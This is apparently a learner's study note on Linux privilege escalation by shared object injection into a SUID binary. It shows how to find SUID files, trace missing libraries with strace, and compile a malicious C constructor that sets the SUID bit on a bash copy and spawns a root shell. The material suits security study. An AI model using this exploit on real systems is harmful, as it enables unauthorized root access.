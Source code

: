 # shared object injection

**SUID (S , 04000)**→ privilege which file run with creator privilege not user who’s run it

we start to know which file run with SUID

```bash
find / -type f -perm -u=s -ls 2>/dev/null
#  or
find / -type f -perm 04000 -ls 2>/dev/null
```

![image.png](<../../../.gitbook/assets/image (19).png>)

**Strace** → tool which use to spectate of system calls function

.so → use to run library before the system library

```bash
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
# use to eun suid.so and search on this words to find file can be inject a malicious code in it
```

<figure><img src="../../../.gitbook/assets/image 1 (8).png" alt=""><figcaption></figcaption></figure>

so this c code which will inject

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

we create a file and we start to convert this file to library

```bash
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/malicious.c 
```

then run the main `file suid-so`

```bash
usr/local/bin/suid-so
```

<figure><img src="../../../.gitbook/assets/image 2 (7).png" alt=""><figcaption></figcaption></figure>

***

***

### why we choose this library `/home/user/.config/libcalc.so` ?

which return value 3 that’s mean Strace success to open it like all marked green in photo

but these libraries which load from places the user can’t open or edit it but this place `/home/user/.config/libcalc.so` the user can edit it and inject a malicious code

<figure><img src="../../../.gitbook/assets/image 3 (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image 4 (5).png" alt=""><figcaption></figcaption></figure>

